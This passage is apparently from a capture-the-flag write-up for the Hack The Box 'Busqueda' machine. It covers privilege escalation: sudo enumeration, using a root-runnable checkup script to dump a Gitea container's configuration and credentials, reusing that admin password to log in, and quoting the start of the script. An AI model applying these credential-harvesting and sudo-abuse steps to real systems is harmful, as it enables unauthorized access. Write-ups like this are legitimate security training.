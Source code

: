 <hr>

- `sudo -l` -> (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

- `sudo pyhton3 /opt/sccripts/system-checkup.py *`

```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
---
Running docker-ps
```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   19 months ago   Up 17 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   19 months ago   Up 17 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
-> two conatainers gitea and mysql_db are up.

---
Running docker-inspect
```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

-> need to pass a format and container name as well. 

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```
![gitea admin password](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/gitea_admin_pass.png)

- couldnot login to mysql with this credentials.
- try for administrator user in gitea.searcher.htb. -> successfully logged in
![loggedin as administrator](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/loggedin_admin.png)

- In scripts repository, we can find system-checkup.py script whic could be run as sudo by us on the server.
```bash
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
```
